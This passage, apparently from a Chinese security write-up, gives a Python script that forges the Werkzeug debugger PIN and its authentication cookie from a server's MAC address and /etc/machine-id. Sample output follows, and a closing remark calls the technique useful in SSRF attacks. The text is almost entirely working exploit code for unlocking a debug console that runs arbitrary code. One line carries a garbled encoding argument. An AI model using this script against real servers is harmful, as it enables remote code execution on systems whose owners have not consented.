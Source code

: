 ```py
    '2485378220034',# str(uuid.getnode()),  /sys/class/net/eth0/address
    'c99acdf71a05e4b95c47a008def069e05c39433f065dd663e174710750a627d38f98dee12214584e031c3d32b19558f9'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8/etc/machine-id')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

def hash_pin(pin: str) -> str:
    return hashlib.sha1(f"{pin} added salt".encode("utf-8", "replace")).hexdigest()[:12]


cookie_value = f"{int(time.time())}|{hash_pin(rv)}"

def gen_pin_and_cookie():
    print("PIN : " + rv)
    cookie = "%s=%s" % (cookie_name,cookie_value)
    print("Cookie : %s" % (cookie))
    return rv, cookie

if __name__ == "__main__":
    gen_pin_and_cookie()
```
输出如下:
```bash
python gen_pin.py 
PIN : 237-329-095
Cookie : __wzd6dbe72d955ae6afe163f=1687229505|3600f69899c0
```
这在 ssrf 的场景下非常有用.
